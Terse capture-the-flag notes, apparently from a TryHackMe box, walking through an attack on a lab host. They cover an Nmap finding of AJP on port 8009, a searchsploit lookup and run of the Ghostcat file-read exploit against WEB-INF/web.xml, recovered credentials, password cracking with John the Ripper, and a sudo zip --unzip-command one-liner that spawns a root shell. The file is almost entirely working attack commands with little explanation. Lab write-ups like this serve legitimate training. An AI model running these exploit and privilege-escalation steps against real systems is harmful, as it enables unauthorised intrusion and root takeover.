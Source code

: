 
# IP
10.10.223.223
# scan using Nmap
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)

searchsploit tomcat ghostcat
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                           | multiple/webapps/48143.py




python /usr/share/exploitdb/exploits/multiple/webapps/48143.py -p 8009 -f WEB-INF/web.xml 10.10.223.223


skyfuck:8730281lkjlkjdqlksalks

# After gpg --decrypt need johntheripper to hash the password

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j


run sudo -l to check how to find root
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip


it will run as Zip without passwd



sudo zip ihackpy.zip ihackpy.txt -T --unzip-command="sh -c /bin/bash"


THM{Z1P_1S_FAKE}

#Thank You
